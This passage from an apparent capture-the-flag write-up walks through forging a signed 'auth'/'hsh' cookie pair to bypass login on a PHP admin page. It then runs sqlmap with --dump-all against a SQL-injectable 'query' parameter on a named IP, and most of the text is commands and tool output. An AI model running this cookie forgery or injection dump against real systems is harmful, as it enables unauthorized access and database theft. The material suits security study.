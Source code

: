 Now we have a new signature hash (`967ca6fa9eacfe716cd74db1b1db85800e451ca85d29bd27782832b9faa16ae1`) to be used as the value for the `hsh` cookie, and the new value on which the hash is based (i.e. `strrev($_COOKIE["auth"]`) along with the `$SECRET` prefix. In order to get the `auth` cookie value, we still need to reverse and URL-encode this result:

```bash
$ node
> var data = ';0:b\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00`;1:b';
> console.log(encodeURIComponent(data.split('').reverse().join('')));
b%3A1%3B%60%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%C2%80b%3A0%3B
```

Just to be sure, let’s verify that this value `unserialize`s to `true` instead of `false`:

```bash
$ php -r 'var_dump(unserialize(strrev(";0:b\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00`;1:b")));'
bool(true)
```

Looking good. Now, let’s use these cookie values and reload `admin.php`:

```
auth=b%3a1%3b%60%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%80b%3a0%3b
hsh=967ca6fa9eacfe716cd74db1b1db85800e451ca85d29bd27782832b9faa16ae1
```

And we’re successfully logged in!

### SQL injection vulnerability

The `query` URL parameter for [`/admin.php`](http://54.211.6.40/admin.php?query=lol) is vulnerable to SQL injection. Let’s see what kind of data we can leak using [`sqlmap`](http://sqlmap.org/):

```bash
$ sqlmap.py -u 'http://54.211.6.40/admin.php?query=abc' --cookie='auth=b%3a1%3b%60%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%80b%3a0%3b; hsh=967ca6fa9eacfe716cd74db1b1db85800e451ca85d29bd27782832b9faa16ae1' --dump-all

    sqlmap/0.9 - automatic SQL injection and database takeover tool
    http://sqlmap.sourceforge.net

[*] starting at: 13:33:37

[13:33:37] [INFO] using '/usr/local/Cellar/sqlmap/0.9/output/54.211.6.40/session' as session file
[13:33:37] [INFO] testing connection to the target url
[13:33:37] [INFO] testing if the url is stable, wait a few seconds
[13:33:37] [INFO] url is stable
[13:33:37] [INFO] testing if GET parameter 'query' is dynamic
[13:33:37] [INFO] confirming that GET parameter 'query' is dynamic
[13:33:37] [INFO] GET parameter 'query' is dynamic
[13:33:37] [INFO] heuristic test shows that GET parameter 'query' might be injectable (possible DBMS: MySQL)
[13:33:37] [INFO] testing sql injection on GET parameter 'query'
[13:33:37] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:33:37] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause'
[13:33:37] [INFO] GET parameter 'query' is 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause' injectable
[13:33:37] [INFO] testing 'MySQL > 5.0.11 stacked queries'
[13:33:37] [INFO] testing 'MySQL > 5.0.11 AND time-based blind'
[13:33:37] [INFO] testing 'MySQL UNION query (NULL) - 1 to 10 columns'
[13:33:37] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
```